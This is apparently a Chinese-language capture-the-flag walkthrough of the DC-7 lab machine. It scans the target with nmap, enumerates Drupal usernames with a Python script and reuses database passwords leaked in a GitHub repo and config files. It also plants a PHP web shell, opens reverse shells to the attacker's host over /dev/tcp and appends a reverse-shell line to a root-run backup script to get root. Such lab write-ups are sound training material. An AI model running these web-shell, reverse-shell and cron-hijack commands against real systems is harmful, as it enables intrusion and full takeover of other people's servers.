# 目标

get **flags**


---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是 `192.168.64.42`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.42 -sS -sV --max-rate 10000 -p-
```


**TCP connection扫描**
```shell
nmap 192.168.64.42 -sT -sV --max-rate 10000 -p-
```


**UDP扫描**
```shell
nmap 192.168.64.42 -sU -sV --max-rate 10000 --top-ports 100
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.42 -sV -sC -O -p 22,80,2 --max-rate 10000 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.42 -sV --script vuln -p 22,80,2 -O --max-rate 10000 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 22端口获取信息
```shell
nmap 192.168.64.42 -p 22 --script ssh-auth-methods.nse,ssh-hostkey.nse --max-rate 10000 -sV
```


## 1.4 80端口获取信息
### 1.4.1 访问`http://192.168.64.42`

这是Drupal (CMS)。

### 1.4.2 枚举用户名
```python
import requests
from time import sleep
from rich.progress import Progress, BarColumn, TextColumn, TimeElapsedColumn, TimeRemainingColumn

url = "http://192.168.64.42/user/password"

users_file = "/usr/share/wordlists/seclists/Usernames/Names/names.txt"

headers = {
    'Host': '192.168.64.42',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.64.42',
    'Connection': 'keep-alive',
    'Referer': 'http://192.168.64.42/user/password',
    'Upgrade-Insecure-Requests': '1'
}

with open(users_file, "r", encoding="utf-8", errors="ignore") as f:
    users = [line.strip() for line in f if line.strip()]

total = len(users)
session = requests.Session()

with Progress(
    TextColumn("[bold blue]{task.description}"),
    BarColumn(),
    TextColumn("{task.completed}/{task.total}"),
    TimeElapsedColumn(),
    TimeRemainingColumn(),
) as progress:
    task = progress.add_task("Bruteforcing...", total=total)

    for u in users:
        data = {
            'name': u,
            'form_build_id': 'form-GgmwVQJA7jEgR7_Czi3nkku2xKokOLb2kQYgdixP6ns',
            'form_id': 'user_pass',
            'op': 'Submit'
        }

        try:
            response = session.post(
                url,
                headers=headers,
                data=data,
                timeout=10,
                allow_redirects=False
            )
        except requests.RequestException as e:
            progress.console.print(f"[red]Request error:[/red] {e}")
            progress.update(task, advance=1)
            continue

        if 'Reset your password | D7' not in response.text:
            progress.console.print(
                f"[green]Possible hit[/green] "
                f"status={response.status_code}; username={u};"
                f"length={len(response.content)}"
            )

        progress.update(task, advance=1)
        sleep(0.1)
```

有一个*admin*用户。

### 1.4.3 尝试破解admin用户密码
利用网站构造小字典
```shell
cewl -d 4 -m 4 -w site.txt http://192.168.64.42 --with-numbers
```
尝试应该是不可以的，因为有测试限制。

### 1.4.3 
首页下面有一个`@DC7USER`，不知道是啥，但是很奇怪会有这么一个，可能是域名？可能是用户名？还有就是像x社交里面的用户，上面的描述里面不是这个用户名？

**域名**
尝试过了，没啥区别。

**用户名**
没有用，因为这个登陆点限制多次尝试。

**X社交**
查找一下，还真有 🧐

应该是给了一个github库，可以去看看，

```shell
# clone下来，看看
git clone https://github.com/Dc7User/staffdb.git
```
里面的文件看起来像是网站里面的源码。在`config.php`文件里面，有如下代码：
```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```
有用户名与密码，尝试去登陆一下这个网站，如果不行，就去尝试登陆一下ssh.

---

# 2.建立系统立足点

使用上面找到的用户名及密码，在网站上面登陆不上去，

但是在ssh上面是可以登陆上去的，


---

# 3.系统提权

先查看一下这个系统与当前用户的基本信息，
- `id`
    ```
    uid=1000(dc7user) gid=1000(dc7user) groups=1000(dc7user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
    ```
- `uname -a`
    ```
    Linux dc-7 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u5 (2019-08-11) x86_64 GNU/Linux
    ```
- `cat /etc/os-release`
    ```
    PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
    NAME="Debian GNU/Linux"
    VERSION_ID="9"
    VERSION="9 (stretch)"
    ID=debian
    HOME_URL="https://www.debian.org/"
    SUPPORT_URL="https://www.debian.org/support"
    BUG_REPORT_URL="https://bugs.debian.org/"
    ```

执行“三板斧”
```shell
find / \( -path /sys -o -path /dev -o -path /proc -o -path /etc -o -path /lib -o -path /run -o -path /usr\) -prune -o -name "*key*" 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /proc -o -path /etc -o -path /lib -o -path /run -o -path /usr\) -prune -o -name "*back*" 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /proc -o -path /etc -o -path /lib -o -path /run -o -path /usr\) -prune -o -name "*bak*" 2>/dev/null
find / \( -path /sys -o -path /dev -o -path /proc -o -path /etc -o -path /lib -o -path /run -o -path /usr\) -prune -o -name "*pass*" 2>/dev/null
sudo -l
find / -perm -4000 -type f 2>/dev/null
```
没什么信息。

我在执行命令后，结果最后会出现，如下的提醒，

去看一下这个邮件，`cat /var/mail/dc7user`
可以很明显的看出系统里面有一个定时任务，像是备份的功能。使用的程序应该是`/opt/scripts/backups.sh`.
上传*pspy64*程序,
```shell
chmod 777 pspy64
./pspy64
```

而且使用的是root用户的权限运行。

去查看一下这个脚本程序，
- `ls -l cat /opt/scripts/backups.sh`
    ```
    -rwxrwxr-x 1 root www-data 520 Aug 29  2019 /opt/scripts/backups.sh
    ```
- `cat /opt/scripts/backups.sh`
    ```shell
    #!/bin/bash
    rm /home/dc7user/backups/*
    cd /var/www/html/
    drush sql-dump --result-file=/home/dc7user/backups/website.sql
    cd ..
    tar -czf /home/dc7user/backups/website.tar.gz html/
    gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
    gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
    chown dc7user:dc7user /home/dc7user/backups/*
    rm /home/dc7user/backups/website.sql
    rm /home/dc7user/backups/website.tar.gz
    ```

这个执行脚本对于www-data用户是拥有修改权限的，所以我们现在考虑横向移动到www-data用户。我们可以根据上面的备份代码，解密上面的备份文件，然后去查找一下，也许就能找到用户名与密码，可以试一下。
- 解密文件`website.sql.gpg`和`website.tar.gz.gpg`
    ```shell
    gpg --batch --yes --pinentry-mode loopback --passphrase PickYourOwnPassword -o website.sql -d /home/dc7user/backups/website.sql.gpg
    gpg --batch --yes --pinentry-mode loopback --passphrase PickYourOwnPassword -o website.tar.gz -d /home/dc7user/backups/website.tar.gz.gpg
    ```
- 将`website.sql`文件下载到kali，并且导入进数据库*dc7*
    ```shell
    dc7user@dc-7: $ python3 -m http.server 8080
    ```
    ```shell
    sudo mariadb -u root -p # 登陆mariadb
    mariadb > create database dc7;
    mariadb > exit;
    sudo mariadb -u root -p dc7 < website.sql
    ```
- 查询dc7数据库



使用john来破解一下，将密码保存在*passwd.hash*文件里面，破解的好慢。先停一下，保留这个做法。

去查看一下Drupal网站的设置，Drupal的默认的配置文件在`html/sites/default/settings.php`，在里面可以看到如下的内容，
```php
$databases['default']['default'] = array (
  'database' => 'd7db',
  'username' => 'db7user',
  'password' => 'yNv3Po00',
  'prefix' => '',
  'host' => 'localhost',
  'port' => '',
  'namespace' => 'Drupal\\Core\\Database\\Driver\\mysql',
  'driver' => 'mysql',
);
```
这有mysql的一个用户名与密码。可以在系统里面登陆，


可以考虑在这个数据库里面更改admin用户的密码。可是怎么生成有效的密码呢？

发现Drupal有一个工具drush可以直接修改admin用户的密码，
`drush upwd admin --password='admin123'`

更改成功。

去网站登陆admin用户(`admin:admin123`)


使用下面版本的php模块，网址：`https://www.drupal.org/project/php/releases/8.x-1.0`

上传完成之后，勾选，然后选择安装。

安装完成后就去创建*basic page*，选择下面的php，内容为:
```php
<?php system($_GET['x']);?>
```



然后在上面的网址后面加上`?x=ls`


可以了，现在建立*www-data*用户的连接。

输入：`?x=bash -c 'bash -i >%26 /dev/tcp/192.168.64.2/1025 0>%261'`
对于url里面的`&`需要特别注意，需要编码成`%26`!
kali端输入 `nv -lvnp 1025`

到这里已经基本结束了，我们只用使用*www-data*用户去修改`backups.sh`那个脚本，然后等待root权限来再次建立反弹连接就行了。

在kali端再次监听: `nv -lvnp 4444`

仔细查看上面一层的`scripts`文件夹，
```
drwxr-xr-x  2 root www-data 4096 Aug 29  2019 scripts
```
可以发现我们在这个文件夹里面是没有创建文件的权限的，因此类如： nano, vim 这些在编辑过程中会产生缓存文件的不能使用。使用`echo`就行。
修改`/opt/scripts/backups.sh`,
```shell
echo 'bash -p -c "bash -i >& /dev/tcp/192.168.64.2/4444 0>&1"' >> backups.sh
```
然后等一会，刷个抖音。😀

